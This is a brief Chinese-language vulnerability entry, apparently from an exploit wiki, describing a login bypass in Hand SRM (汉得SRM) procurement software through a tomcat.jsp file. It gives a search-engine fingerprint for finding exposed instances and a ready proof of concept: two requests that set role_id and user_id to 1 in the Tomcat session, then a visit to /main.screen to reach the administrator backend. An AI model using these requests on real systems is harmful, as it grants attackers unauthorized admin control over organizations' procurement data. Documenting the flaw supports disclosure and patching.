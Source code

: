 # 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

<a-checkbox checked>汉得SRM </a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="汉得SRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1686046062155-51fc2944-47d1-40c2-ac6e-c0dfa7c7e180.png)

验证POC (Tomcat session操控)

```plain
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![img](/assets/PeiQi-Wiki/img/1686046136394-1bd2fed1-a82b-485c-a50a-d292ea08ad4c.png)

访问跳转后台

```plain
/main.screen
```
